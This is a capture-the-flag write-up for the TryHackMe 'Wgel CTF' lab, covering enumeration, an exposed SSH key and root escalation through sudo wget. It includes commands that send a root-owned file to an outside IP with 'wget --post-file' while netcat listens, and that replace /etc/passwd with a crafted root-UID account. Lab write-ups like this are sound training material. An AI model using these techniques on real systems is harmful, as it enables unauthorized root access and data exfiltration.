



# Wgel CTF (THM)

- https://tryhackme.com/room/wgelctf
- March 4, 2023
- easy

---

## Enumeration

### Nmap Initial

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))
   - Apache2 Ubuntu Default Page

### http

- directory brute forcing

```sh
$ ffuf -u http://$IP/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- `sitemap` directory found
- nothing special in this website
- brute force again with that sitemap

```sh
$ ffuf -u http://$IP/sitemap/FUZZ -w /usr/share/wordlists/common.txt -e php,txt -c -t 128
```

- found `.ssh` directory and found id_rsa and save it



- need to find username
- explore that website
- I tried to login with different names combinations but not success
- found a username `jessie` at `http://$IP` comment



## Get User Access

- enter ssh with jessie and with id_rsa
- don't forget to change chmod 600 to id_rsa

```sh
jessie@CorpOne:~$ sudo -l
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

- find user flag

```sh
jessie@CorpOne:/tmp$ find /home/jessie/ -name *.txt
...
/home/jessie/Documents/user_flag.txt
```

## Get Root Access

- easy way to get the flag for this ctf is

  - post the root flag file from ssh shell to our local machine
  - user flag's name is user_flag.txt and I guess root flag may be root_flag.txt in root directory.

- listen at the local machine with nc like

```sh
$ nc -nvlp 80 > flag.txt
```

- then, in ssh shell,

```sh
jessie@CorpOne:/tmp$ sudo wget --post-file=/root/root_flag.txt http://10.11.8.57
```

- it will get the root flag

### to get root shell

- copy the contents from /etc/passwd file to local machine
- in passwd file, copy the root (first line) and paste at the bottom line
- change username to whatever
- then create password hash like this

```sh
$ openssl passwd -1 -salt random_salt tryhackme
$1$random_s$QVJQHRY2rSaXEDArHyI7Z/
```

```
...
singha:$1$random_s$QVJQHRY2rSaXEDArHyI7Z/:0:0:root:/root:/bin/bash
```

- in this password for this user is `tryhackme`
- then, create a local server and use wget with sudo access from the shell and get the passwd file in /etc/ directory



- note use `-O` flag to specify the file name or it will download as `passwd.1`, etc

---
